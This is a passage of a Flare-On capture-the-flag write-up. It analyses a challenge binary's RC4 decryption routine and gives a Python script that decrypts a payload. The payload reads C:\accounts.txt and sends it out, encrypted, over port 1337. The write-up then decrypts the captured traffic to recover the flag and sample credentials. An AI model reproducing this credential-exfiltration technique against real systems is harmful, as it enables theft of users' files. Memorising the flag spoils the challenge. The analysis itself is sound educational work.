4339a71ba24a5a5c8eb4c01b3d3cd2c228c0b4ccd2d5a8c9ab167707f7596e256c11dff057e77a2bae59aaef9f8b2f178d2b1dce903c2d4ff1f66cdb047f0b4d1f672fa1eb7f14de76e4210ec5d9430dd7f751c014546b6146cf7453658eceff337049c21eb9454a3fe23cbbb315c6275bded2790fe9117e2ae429b7904d15cefcd4b86934a74412dad0b351d81fd102c8efd8c681df5450ab5b409be0efafad2f74e58d83c1a1b113d992553ab78ac5449bb2a42b38066b563e290f8a58f37af97132be8fc5d4b718b4d9fc8ec07281fcb30921e6ddcb9de94b8e9cb5af7a2b0bb0fc338b727331be9bf452d863e346d12f6051227c528e4d261267e992b3f1f034d7972b983566d8e8233c209eb214a0c13adea291b58da10164320557df4b7fc2634688ba054af07d5d523b523b8fb07c6644a567fa06d867c333b23b79d9ca822b1799f00e776e9c768ae5c23ae9fc6459148836fbf0ad8c977ab2c2d8547bfe9818013d9dc1c210ff4c7790752a8068c576353b2fb7dbe6c1aae2ebdc6fd970a04edc0a30545db9b62bd34a9082553009036cfd96315a5f7f8e0d869fd7924607ba2aebdf2b4b9c2088465a96deba5d872a7b65921b9f411125d391d15756d8a2f58c2fc80025178a9fc7dde0d85a55718f8f0cc8e4c5ed76558744e8a4433a224e3565768babbf2b23298f1882ec3
```

Let's take a look at the decryption routine



It initialises an sbox of 0x100 bytes  
It then uses the phrase "killervulture123" to move values around within the sbox

This screams RC4 to me  
I wrote a quick python script to confirm my suspicions

```py
from arc4 import ARC4

xored_length = bytes.fromhex("9c5c4f52")
enc = bytes.fromhex("a4b1037390e4c88e97b0c95bc630dc6abdf4203886f93026afedd0881b924fe509cd5c2ef5e168f8082b48daf7599ad4bb9219ae107b6eed7b6db1854d1031d28a4e7f268b10fdf41cc17fab5a739202c0cb49d953d6df6c0381a021016e875f09fe9a699435844f01966e77eca3f3f52f6a3636ab4775b580cb47bd9f7638a54048579c36ad8e7945a320faed1f1849b88918482b5b6feef4c3d6dccc84eab10109b1314ba4055098b073ae9c14101b65bd93826c57b9757a2aeede10fb39ba96d0361fc2312cc54f33a513e1595692c51fa54e0e626edb5be87f8d01a67d012b02431f54b9bcd5ef2db3daef3dd068fedade60b117feea204a2ca1bba1b5c51292a9dbf111e38c58badc3d288666c86d0eabfa83d5246010681dc7afc7ac4513a3d972e7cc5179f567417cae7fc87e954609f6ef4b4502745210501cb76a7ceb00d759c3290237d0472e1e3af7e6ac821474eb4f6b572213f6f248d66bcbb4eda73268cbd06642d3c5f2c537df7d9f9f28c0743abeb8c0a773d0bbfa507c101edab123d6c481a5d3b62229096b21a65c38c6803dbe0823c7b11f6de6646695dc10a71342cd3bfadcda148dd05ac88135542fb5dc61d6287788c55870b52fcfea4f4d85560407f39074ce5d3c8a2b06b49fe66d79c06e3dd83e2008b7743d3699cd7f607d9cc9b3ad0c8e456dea3ddd091dda0b3a1cfccb8148ed5afacef8c623b01e2644a3d9ab0ed598b133655ded6ad3237f024ab3a2f81d7ed12f5fbe89615e2ce4b89619e549764e7ae892a370556f7d3cf9c1364469337ddf7937b8e0aae86a5dc93b180f4e283a31a87fefb819ac3663e889214d83a77e5703489be1279306e43b675fe56950003e8b01b7efa6b54b3682d4fb9fde8b27cca457ce2537445042f77ea2bf4fdf0f72d8664a3ef5c8262ac5887b97ab235b2b61d83f00370e7e14fafd7df78149c2a1851bd028bea524fd60b278274eace8793b3b7adc56d076c5010fcf43b5d45f4870bdac6576db113b5bcf9c528b001e83f1fa925b7779076ae0d4339a71ba24a5a5c8eb4c01b3d3cd2c228c0b4ccd2d5a8c9ab167707f7596e256c11dff057e77a2bae59aaef9f8b2f178d2b1dce903c2d4ff1f66cdb047f0b4d1f672fa1eb7f14de76e4210ec5d9430dd7f751c014546b6146cf7453658eceff337049c21eb9454a3fe23cbbb315c6275bded2790fe9117e2ae429b7904d15cefcd4b86934a74412dad0b351d81fd102c8efd8c681df5450ab5b409be0efafad2f74e58d83c1a1b113d992553ab78ac5449bb2a42b38066b563e290f8a58f37af97132be8fc5d4b718b4d9fc8ec07281fcb30921e6ddcb9de94b8e9cb5af7a2b0bb0fc338b727331be9bf452d863e346d12f6051227c528e4d261267e992b3f1f034d7972b983566d8e8233c209eb214a0c13adea291b58da10164320557df4b7fc2634688ba054af07d5d523b523b8fb07c6644a567fa06d867c333b23b79d9ca822b1799f00e776e9c768ae5c23ae9fc6459148836fbf0ad8c977ab2c2d8547bfe9818013d9dc1c210ff4c7790752a8068c576353b2fb7dbe6c1aae2ebdc6fd970a04edc0a30545db9b62bd34a9082553009036cfd96315a5f7f8e0d869fd7924607ba2aebdf2b4b9c2088465a96deba5d872a7b65921b9f411125d391d15756d8a2f58c2fc80025178a9fc7dde0d85a55718f8f0cc8e4c5ed76558744e8a4433a224e3565768babbf2b23298f1882ec3")

crypter = ARC4(b"killervulture123")
decrypted = crypter.decrypt(enc)
print(decrypted)
```



Look at the end of that bytestream, looks like the decryption works  
There are 2 strings that i can see
- "C:\\accounts.txt"
- "intrepidmango"

### Port 1337

If you continue to run the code in your debugger, it will eventually call into these decrypted bytes  
It will then connect to port 1337, encrypt the contents of "C:\\accounts.txt" and send it out

The encryption code also creates a sbox of 0x100 bytes and initializes them with the phrase "intrepidmango"



Therefore, I guessed that the traffic on port 1337 was RC4 encrypted with the key "intrepidmango"

I tweaked my [python script](soln.py) to decrypt the message sent over port 1337

```
roy:h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com:goat
moss:Pot-Pocket-Pigeon-Hunt-8:narwhal
jen:Straighten-Effective-Gift-Pity-1:bunny
richmond:Inventor-Hut-Autumn-Tray-6:bird
denholm:123:dog
```

The flag is **h4ve_you_tri3d_turning_1t_0ff_and_0n_ag4in@flare-on.com**
